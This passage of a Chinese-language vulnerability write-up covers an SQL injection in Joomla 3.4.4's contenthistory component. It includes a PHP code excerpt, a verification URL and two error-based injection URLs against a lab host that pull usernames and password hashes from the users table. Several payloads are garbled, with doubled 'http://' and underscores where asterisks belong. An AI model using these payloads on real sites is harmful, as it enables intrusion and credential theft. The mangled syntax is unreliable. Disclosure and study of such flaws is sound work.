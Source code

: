 ```
                    case 'direction':
                        (...省略...)
                    case 'limit':
                        (...省略...)
                    default:
                        $value = $value;
                        break;
                }    

                $this->setState('list.' . $name, $value);
            }
        }
    (...省略...)

```

而传递`list[select]`参数值最终会被解析到上述组件视图进行处理时 SQL 语句构建中的`list.select`里，从而导致了注入。

0x02 漏洞演示
=====

通过上面简单的分析，已经知道了受影响的 Joomla 版本中，`contenthistory`组件访问不受权限的控制，并且当进行`view=history`请求时会解析请求参数中`list[select]`的值拼接到 SQL 语句中。下面是该漏洞的简单验证和利用方法。

_1.漏洞验证_

> http://http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&list[select]=1

因为在进行 SQL 语句拼接的时候，获取了`list.ordering`进行数据查询中的`order`操作，若不提供默认会将其设置为数据进行处理，相关处理位于`/libraries/joomla/database/driver.php`的 quoteName() 函数中。

因此，访问上述构造的URL，服务器会报错：

![](http://drops.javaweb.org/uploads/images/d1bd8bf075d60f56670c45e2e757f9e3c8258a81.jpg)

_2.漏洞利用_

因为在 SQL 语句拼接时，程序框架针对每个`from`或者`where`操作进行了换行处理，所以这里并不能使用`#`、`--`等符号来注释掉后面的语句，只能通过报错注入进行数据提取。但是语句的成功执行有一定的前提条件，也就是传递的`item_id`和`type_id`参数值必须于数据库中有效，同时传递`list[ordering]`参数 (空值即可)，这样注入的语句才能够得到执行，从而进行报错注入。

这里经过多个漏洞站点的测试可以简单的使用`item_id=1&type_id=1`，当然了为了准确性和有效性，可以通过爆破的方式来得到这两个参数的有效值，然后再进行注入操作。

(Tips：Joomla 中构造的 SQL 语句中`#_`最终会在执行前被替换为表前缀)

下面是获取用户名/密码哈希的漏洞演示过程：

> http://http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[ordering]&list[select]=(select 1 from (select count(_),concat((select username from %23__users limit 0,1),floor(rand(0)_2)) from information_schema.tables group by 2)x)

![](http://drops.javaweb.org/uploads/images/b6e0c9a20e968ba47bb3bdbee96aa2059f42f519.jpg)

> http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[ordering]&list[select]=(select 1 from (select count(_),concat((select password from %23__users limit 0,1),floor(rand(0)_2)) from information_schema.tables group by 2)x)
